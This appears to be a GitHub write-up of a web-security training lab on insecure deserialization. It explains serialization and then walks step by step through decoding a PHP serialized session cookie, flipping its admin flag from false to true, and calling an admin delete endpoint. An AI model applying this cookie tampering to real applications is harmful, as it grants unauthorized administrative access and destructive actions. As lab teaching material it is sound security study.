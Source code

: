 # Insecure deserialization


- <details>
     <summary>What is serialization?</summary>

## What is serialization?


**Serialization** is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes. Serializing data makes it much simpler to:

-   Write complex data to inter-process memory, a file, or a database
-   Send complex data, for example, over a network, between different components of an application, or in an API call

Crucially, when serializing an object, its state is also persisted. In other words, the object's attributes are preserved, along with their assigned values.




     
</details>




































<details>
  <summary>Lab: Modifying serialized objects</summary>

1. login as `wiener`
2. intercept the request of `/my-account`

<img width="707" height="621" alt="image" src="https://github.com/user-attachments/assets/4277d372-f554-4646-8b6e-ea389fb9d546" />

```
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
```

3. send cookie to decoder found

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}%3d
```

4. now try to change **`b:0`** to **`b:1`** from false to true
 
<img width="1460" height="634" alt="image" src="https://github.com/user-attachments/assets/f1465f17-e624-4fa0-8456-fbb483a8a3c2" />

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}%3d
```

<img width="1102" height="428" alt="image" src="https://github.com/user-attachments/assets/b6e40c36-3938-4f69-89d6-0815ba9c3fd9" />

5. now visit admin panal and delete carlos

```
/admin/delete?username=carlos
```

<img width="1421" height="793" alt="image" src="https://github.com/user-attachments/assets/cef09826-e1ec-41af-af50-7804bb31a5a6" />


  
</details>
